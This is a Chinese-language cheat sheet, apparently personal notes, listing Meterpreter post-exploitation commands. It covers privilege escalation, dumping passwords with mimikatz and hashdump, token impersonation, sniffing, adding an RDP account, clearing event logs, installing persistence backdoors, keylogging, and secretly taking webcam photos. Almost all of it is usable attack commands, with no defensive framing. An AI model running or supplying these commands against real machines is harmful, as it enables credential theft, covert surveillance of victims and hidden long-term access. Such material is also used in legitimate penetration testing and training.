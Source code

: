 # MeterPreter的作用

- **Mterpreter除了持久化控制，其他的操作都是在内存中完成的，不会写进物理磁盘，重启之后各种痕迹就会消失了**

---

# 后渗透中的一些例子

- **权限提升**

  - `getsystem`：直接提权

  - `bypassuac`:绕过UAC控制 `使用exploit/windows/local/bypassuac模块`

  - 利用windows的提权漏洞:`post/windows/gather/enum_patches模块用来枚举可能存在的漏洞`

  - 域管理员嗅探：`post/windows/gather/enum_domain`

  - 抓取密码:`load mimikatz => wdigest`或者使用`post/windows/gather/hashdump`模块进行渗透

  - 假冒令牌：`use incognito`模块

    - ```shell
      list_tokens[-g][-u]:列出可用的令牌
      impersonate_token TokenName:假冒指定的令牌
      ```

  - 端口转发【主要是针对一些在内网限制了出入的端口】：

    - `portfwd delete -l portnum:删除指定的端口`
    - `portfwd list：查看端口转发列表`
    - `portfwd add -l 端口号 -p 要被映射的端口号 -r IP地址`

  - 搜索文件

    - serch -f  \*flag*:搜索所有包含flag的文件

  - 抓包：`use sniffer`

    - `sniffer_interfaces:查看网卡`
    - `sniffer_start num：抓取第几个网卡的数据包`
    - `sniffer_dump num path`:导出第几个网卡的数据包pcap文件
    - `sniffer_stop num:`停止抓包，指定第几块网卡

  - 开启远程桌面服务

    - `run getgui -u 账号名称 -p 密码`

      //会新建一个账户，最后删掉就行

  - 日志清除：`clearev`

  - 留后门：

    - 01：`run metsvc`:通过安装系统服务连接后门
    - 02：`run persistence -U -i connectnum -p lport -r lhost`：通过自启动安装后门

  - 键盘记录

    - `keyscan_start`：开启键盘记录
    - `keyscan_dump`:导出记录结果
    - `keyscan_stop`：停止键盘记录

  - 进程注入

    - `migrate pid`：迁移到指定pid的进程中，可以使用ps查看所有进程

  - 截图

    - `use espia`
    - `screengrap`

  - 截图可以用eog工具查看图片，meterpreter下的screenshot命令也可以截图

  ---

- **Mterpreter的后渗透攻击模块**

  - `use post/windows/gather/forensics/enum_drives`:获取目标机器分区情况
  - `run  post/windows/gather/checkvm`：判断目标及其是否为虚拟机
  - `run post/windows/gather/dumplinks`：目标主机最近进行的系统操作，访问文件和office文档操作记录
  - `run post/windows/gather/enum_applications`：获取目标机器的系统安装程序和补丁情况

- **Mterpreter中常用的一些操作**

  - `uictl[enable/disable][keyboard/mouse]:开启或者禁止鼠标/键盘`

  - `webcam命令`

    - ```shell
      webcam_list#查看可用摄像头
      webcam_snap#通过摄像头拍照
      webcam_snap#通过摄像头开启视频
      ```

  

